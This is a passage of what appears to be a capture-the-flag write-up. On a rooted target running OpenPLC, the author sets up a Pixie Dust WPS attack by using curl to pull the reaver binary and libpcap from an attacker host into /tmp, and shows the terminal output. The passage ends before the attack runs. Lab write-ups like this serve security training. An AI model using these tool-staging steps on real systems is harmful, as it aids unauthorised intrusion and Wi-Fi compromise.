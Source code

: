 ![ea642224738ae4bdb9e9d5482d33fe93.png](/assets/img/ea642224738ae4bdb9e9d5482d33fe93.png)

# Pixie Dust WPS Attack via Reaver

Reaver was not installed on the box. I decided to upload the reaver binary in addition to the library it depends on. Since I had root level access on the virtual machine this process should be no problem.

### Copying Reaver into Temp

Sourced the reaver binary and library and copied them into the temp directory on the target host using curl.

```
root@attica02:/opt/PLC/OpenPLC_v3/webserver# cd /tmp
cd /tmp
root@attica02:/tmp# ls
ls
root@attica02:/tmp# curl 10.10.14.53/reaver -o reaver
curl 10.10.14.53/reaver -o reaver
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  819k  100  819k    0     0  2095k      0 --:--:-- --:--:-- --:--:-- 2096k
root@attica02:/tmp# curl 10.10.14.53/libpcap.so.0.8 -o libpcap.so.0.8
curl 10.10.14.53/libpcap.so.0.8 -o libpcap.so.0.8
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  302k  100  302k    0     0  1357k      0 --:--:-- --:--:-- --:--:-- 1361k
```
